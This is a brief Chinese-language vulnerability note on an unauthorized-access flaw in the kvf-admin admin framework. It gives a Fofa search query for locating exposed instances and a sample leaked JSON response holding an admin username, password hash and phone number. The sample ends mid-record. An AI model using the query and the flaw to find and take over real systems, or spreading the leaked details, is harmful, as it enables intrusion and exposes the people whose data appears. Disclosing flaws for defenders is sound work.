 # K8-10kvfadmin存在未授权漏洞

<u></u>





### 漏洞描述：kvf-admin是一套快速开发框架、脚手架、后台管理系统、权限系统.攻击者可利用漏洞获取系统敏感信息并接管平台。



### Fofa语句：title="kvfadmin"



### 漏洞复现：

```json
{
"code": 200,
"msg": "请求成功",
"data": [
{
"current": 1,
"size": 10,
"id": 1,
"username": "admin",
"password": "e09adc3949ba59abbe56e057f20f883e",
"realname": "系统管理员",
"sex": 1,
"phone": "18218798428",
"tel": "123",
"email": "123",
"avatar": "static/image/avatar/tz.jpeg",
"jobTitle": "超级管理员",
"status": 0,
"delFlag": 0,
"createBy": null,
"updateTime": "2019-05-19 17:39:12",
"createTime": "2019-04-30 22:44:17",
"idcard": null,
"address": null,
"indate": null,
"userId": null,
"deptId": 3
},
```

